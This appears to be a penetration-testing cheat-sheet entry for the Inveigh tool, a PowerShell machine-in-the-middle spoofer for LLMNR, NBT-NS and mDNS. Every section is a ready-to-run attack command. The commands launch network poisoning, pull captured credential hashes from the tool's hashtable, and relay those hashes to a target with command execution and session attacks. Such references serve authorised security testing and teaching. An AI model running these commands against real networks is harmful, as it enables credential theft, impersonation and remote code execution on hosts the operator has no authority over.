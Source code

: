 # inveigh

% inveigh, LLMNR, NBT-NS, Poisoning, man in the middle

## . - url
```
https://github.com/Kevin-Robertson/Inveigh
```

## . - desc
```
Inveigh is a cross-platform .NET IPv4/IPv6 machine-in-the-middle tool for penetration testers.
```

## list prams
```powershell
(Get-Command Invoke-Inveigh).Parameters
```

## inveigh - launch
#plateform/windows #target/remote #cat/ATTACK/MITM 
```
Invoke-Inveigh -ConsoleOutput Y -NBNS Y -mDNS Y -HTTPS Y -Proxy Y -IP <listening_ip> -SpooferIP <redirect_ip>
```

## inveigh - clear hashtable
#plateform/windows #target/remote #cat/ATTACK/MITM 
```
Clear-Inveigh
```

## inveigh - get data from hashtable
#plateform/windows #target/remote #cat/ATTACK/MITM 
```
Get-Inveigh
```

## inveigh - stop all running modules
#plateform/windows #target/remote #cat/ATTACK/MITM 
```
Stop-Inveigh
```

## inveigh - enable rela-time console output
#plateform/windows #target/remote #cat/ATTACK/MITM 
```
Watch-Inveigh
```

## inveigh - Relaying Hashes Captured w/ HTTP Proxy
#plateform/windows #target/serve #cat/ATTACK/MITM 
```
Invoke-InveighRelay -ConsoleOutput Y -Target <targetIP> -Command "whoami" -Attack Enumerate,Execute,Session
```